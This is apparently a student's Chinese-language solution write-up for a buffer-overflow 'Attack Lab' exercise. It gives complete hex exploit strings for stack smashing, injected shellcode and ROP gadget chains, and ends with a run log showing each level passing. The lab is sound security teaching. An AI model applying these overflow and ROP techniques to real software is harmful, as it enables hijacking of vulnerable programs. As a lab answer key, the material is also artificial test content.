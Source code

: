 # Attack Lab
This is target 53.


## 1. ctarget 部分
### Level 1
`level 1` 要求我们在 `getbuf` 输入字符串后，利用溢出来重写栈中 `getbuf` 函数返回的地址，让函数调用 `touch1`。
```
0000000000401713 <getbuf>:
  401713:	48 83 ec 38          	sub    $0x38,%rsp
  401717:	48 89 e7             	mov    %rsp,%rdi
  40171a:	e8 3b 02 00 00       	callq  40195a <Gets>
  40171f:	b8 01 00 00 00       	mov    $0x1,%eax
  401724:	48 83 c4 38          	add    $0x38,%rsp
  401728:	c3                   	retq   
```
根据这段汇编代码我们可以确定，`getbuf` 在栈中分配了0x38比特的内存来存储输入的字符串。如果我们输入的字符串长度超过 56，就可以覆盖掉 `getbuf` 的返回地址了，所以，我们只需要把输入的第 56-63 个字符填写为 `touch1` 函数的地址就行了。
需要注意的是，我们输入的字符应该用两位十六进制数来表示，然后通过 `hex2raw` 来将其转换成字符串。另外，我这里数据都是用小端法来保存的，所以低位在前：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
29 17 40 00 00 00 00 00 
```

### Level 2
`level 2` 要求我们注入我们自己写的代码，并把程序转移到我们写的代码处运行，也就是执行 `touch2`。
如何通过我们的代码跳转到 `touch2` 函数？
首先，我们需要找到缓冲区的起始地址，在 `getbuf` 处打断点，查看 `$rsp`：
```
(gdb) p $rsp
$1 = (void *) 0x5565fd40
```
可以知道，`0x5565fd40 - 0x38 = 0x5565fd08` 就是缓冲区的起始地址，我们需要和前面的 `level 1` 一样，让缓冲区溢出，56-63 个字符填写为缓冲区的起始地址，另外在缓冲区的起始处注入我们自己写的代码，这样程序才能执行我们想要的结果。
我们注入的代码逻辑应该是：

+ 将 `cookie` 值赋给 `%edi` 作为 `touch2` 函数的参数
+ 将 `touch2` 函数的地址入栈
+ ret，让函数执行 `touch2`

转为汇编就是：
```
movl $0x2a2e4a08, %edi
pushq $0x0000000000401755
ret
```
这里需要用到 `gcc` 内联汇编的方法，编写 `level2.c` :
```
int main(void)
{
	asm
	(
	 "movl $0x2a2e4a08, %edi\n\t"
	 "pushq $0x0000000000401755\n\t"
	 "ret"
	);
	return 0;
}
```
编译并查看其反汇编代码：
```
gcc level2.c -o level2.out
objdump -d level2.out 
```
可以看到我们想要的汇编代码：
```
  4004f1:       bf 08 4a 2e 2a          mov    $0x2a2e4a08,%edi
  4004f6:       68 55 17 40 00          pushq  $0x401755
  4004fb:       c3                      retq
```
那么我们在缓冲区注入字符就是：
```
bf 08 4a 2e 2a 68 55 17 
40 00 c3 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
08 fd 65 55 00 00 00 00
```

### Level 3
`level 3` 要求我们执行 `touch3`，`touch3` 接收的参数是 `cookie` 的字符串的地址。
有了 `level 2` 的经验，我们知道需要在 56-63 个字符填写缓冲区的起始地址，另外在缓冲区的起始处注入我们自己写的代码。我们把 `cookie` 字符串放在第 64-71 个字符，这样，我们注入的代码就是：
```
movl $0x5565fd48, %edi
pushq $0x0000000000401829
ret
```
`0x5565fd08 + 64 = 0x5565fd48` 是 `cookie` 字符串的地址，`0x0000000000401829` 是 `touch3` 函数地址。同样地，用 `gcc` 内联汇编的方法得到汇编代码，最终我们在缓冲区注入字符就是：
```
bf 48 fd 65 55 68 29 18 
40 00 c3 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
08 fd 65 55 00 00 00 00
32 61 32 65 34 61 30 38
```


## 2. rtarget 部分
### Level 2
与之前的 `level 2` 相同，我们需要为 `%rdi` 赋上 `cookie` 值，再跳转到 `touch2` 函数执行，跳转到 `touch2` 只需要将 `touch2` 的入口地址放在最后一个 `gadget` 之后，在它的 `ret` 指令执行之后就会返回到 `touch2` 中。
查看 `farm.s`：
```
000000000000001b <getval_188>:
  1b:	b8 3c cd 58 c3       	mov    $0xc358cd3c,%eax
  20:	c3                   	retq  
```
`58 c3` 对应 `popq %rax`，这条指令的地址是 `0x1b + 3 = 0x1e`。
```
0000000000000028 <setval_279>:
  28:	c7 07 48 89 c7 c3    	movl   $0xc3c78948,(%rdi)
  2e:	c3                   	retq   
```
`48 89 c7 c3` 对应 `movq %rax,%rdi`，这条指令的地址是 `0x28 + 2 = 0x30`。
再查看 `rtarget.s`：
```
00000000004018b1 <start_farm>:
  4018b1:	b8 01 00 00 00       	mov    $0x1,%eax
  4018b6:	c3                   	retq   
```
`start_farm` 的起始地址是 `0x4018b1`。所以 `popq %rax` 这条指令最终的地址是 `0x1e + 0x4018b1 = 0x4018cf`；所以 `movq %rax,%rdi` 这条指令最终的地址是 `0x30 + 0x4018b1 = 0x4018e1`。
`level 2(rtarget)` 最终结果为：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
cf 18 40 00 00 00 00 00 /* popq %rax */
08 4a 2e 2a 00 00 00 00 /* 将 cookie 存入 %rax */
e1 18 40 00 00 00 00 00 /* movq %rax,%rdi */
55 17 40 00 00 00 00 00 /* 返回到 touch2 */
```

### Level 3
与之前的 `level 3` 相同，需要将 `%rdi` 指向 `cookie` 的字符串表示的首地址。我们需要把 `cookie` 字符串放在高地址，根据 `%rsp` 和偏移量去取地址。
在 `farm.s` 中：
```
0000000000000042 <add_xy>:
  42:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  46:	c3                   	retq   
```
`lea (%rdi,%rsi,1) %rax` 就是 `%rax = %rdi + %rsi`，所以，只要能够让 `%rdi` 和 `%rsi` 其中一个保存 `%rsp`，另一个保存偏移量，就可以计算出 `cookie` 存放的地址，然后 `movq %rax,%rdi` 再调用 `touch3` 就可以了。
所以，分两步走：先保存一个栈顶地址，这里我通过 `%rsp -> %rax -> %rdi` 保存到 `%rdi` 中，再将偏移量通过 `%eax(%rax) -> %ecx -> %edx -> %esi` 保存到 `%esi(%rsi)` 中。注意，偏移量的值需要等所有指令写完后才能确定。
`level 3(rtarget)` 最终结果为：
```
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
1e 19 40 00 00 00 00 00 /* movq %rsp,%rax (48 89 e0) */
e1 18 40 00 00 00 00 00 /* movq %rax,%rdi (48 89 c7) */
cf 18 40 00 00 00 00 00 /* popq %rax (58) */
/* %rdi中保存的是 movq %rsp,%rax 这条指令的栈顶地址，所以最终偏移量为 0x48 */
48 00 00 00 00 00 00 00 /* 偏移量 */
58 19 40 00 00 00 00 00 /* movl %eax,%ecx (89 c1) */
7a 19 40 00 00 00 00 00 /* movl %ecx,%edx (89 ca) */
0c 19 40 00 00 00 00 00 /* movl %edx,%esi (89 d6) */
f3 18 40 00 00 00 00 00 /* add_xy */
e1 18 40 00 00 00 00 00 /* movq %rax,%rdi (48 89 c7) */
29 18 40 00 00 00 00 00 /* touch3地址 */
32 61 32 65 34 61 30 38 /* 目标字符串 */
```


## 最终结果
```
[root@iZbp10zyqxzc2aoa1tgk8iZ target53]# ./hex2raw < 2017302580193-ctarget.l1 | ./ctarget
Cookie: 0x2a2e4a08
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
[root@iZbp10zyqxzc2aoa1tgk8iZ target53]# ./hex2raw < 2017302580193-ctarget.l2 | ./ctarget
Cookie: 0x2a2e4a08
Type string:Touch2!: You called touch2(0x2a2e4a08)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
[root@iZbp10zyqxzc2aoa1tgk8iZ target53]# ./hex2raw < 2017302580193-ctarget.l3 | ./ctarget
Cookie: 0x2a2e4a08
Type string:Touch3!: You called touch3("2a2e4a08")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
[root@iZbp10zyqxzc2aoa1tgk8iZ target53]# ./hex2raw < 2017302580193-rtarget.l1 | ./rtarget
Cookie: 0x2a2e4a08
Type string:Touch2!: You called touch2(0x2a2e4a08)
Valid solution for level 2 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
[root@iZbp10zyqxzc2aoa1tgk8iZ target53]# ./hex2raw < 2017302580193-rtarget.l2 | ./rtarget
Cookie: 0x2a2e4a08
Type string:Touch3!: You called touch3("2a2e4a08")
Valid solution for level 3 with target rtarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```